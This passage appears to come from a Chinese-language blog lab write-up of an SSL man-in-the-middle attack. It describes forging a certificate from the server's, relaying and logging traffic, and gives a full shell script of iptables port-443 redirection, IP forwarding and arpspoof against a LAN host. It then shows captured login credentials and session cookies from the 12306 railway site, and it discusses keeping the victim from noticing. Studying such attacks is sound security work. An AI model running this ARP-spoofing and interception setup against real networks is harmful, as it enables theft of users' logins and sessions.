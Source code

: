 Openssl库中已经内置了生成密钥的工具，我们可以使用一下命令生成密钥：

{% highlight sh linenos %}
openssl genrsa -out private.key 1024
openssl rsa -in private.key -pubout -out public.key
{% endhighlight %}

这两条命令会在当前目录下生成两个文件，private.key和public.key，分别存储了1024位的RSA私钥和对应的公钥。有了相应的密钥后，我们便在程序中加载它们。加载密钥的代码被封装在`create_key`函数中。

之后，我们以服务器证书数据为蓝本伪造证书，伪造证书的代码封装在`create_fake_certificate`函数中。然后我们调用`SSL_to_client_init`和`SSL_accept`函数完成与主机B的SSL连接。

至此，SSL中间人攻击完成，接下来就可以抓取数据了。

### 7．转移数据并输出

我们将抓取数据的代码封装到`transfer`函数中。该函数主要是使用系统的select函数同时监听服务器和客户端，并使用`SSL_read`和`SSL_write`不断的在两个信道之间传递数据，并将数据输出到指定的文件。

## 汇总

以上的步骤为攻击设计时进行的步骤，而实际攻击过程的步骤与上面讨论的有所不同，因为上面的步骤会使得主机B断网，B会对攻击有所察觉，这在实际的攻击过程中是不应该出现的。

假设我们的C程序编译的可执行文件的文件名为`SSL_man_in_middle`，并将其输出重定向到文件ret，则经过调整顺序，实际攻击的脚本如下：

{% highlight sh linenos %}
iptables -t nat –flush
iptables -t nat -A PREROUTING -p tcp –dport 443 -j REDIRECT –to-port 8888
openssl genrsa -out private.key 1024
openssl rsa -in private.key -pubout -out public.key
./SSL_man_in_middle > ret
echo 1 >/proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.200.122 192.168.200.1
{% endhighlight %}

当然，其中生成密钥的两行命令只有在第一次运行时才应该被包含。

## 实验结果

在主机A启动上面的脚本。在主机B使用firefox浏览器访问12306时，出现如下警告，在选择继续访问后，就出现了12306的页面。


在12306的登陆页面上填写用户名和密码，然后在主机A的输出文件ret中，查找password字段，得到以下结果：

{% highlight text linenos %}
OST /otn/login/loginAysnSuggest HTTP/1.1Host: kyfw.12306.cnUser-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:33.0) Gecko/20100101 Firefox/33.0Accept: */*
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://kyfw.12306.cn/otn/login/init
Content-Length: 78
Cookie: JSESSIONID=0A01D498988F0DD98739CF9698B02E0AE221C4F4EC; BIGipServerotn=2564030730.38945.0000
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
loginUserDTO.user_name=test%40test.com&userDTO.password=testtest&randCode=e3rp
{% endhighlight %}
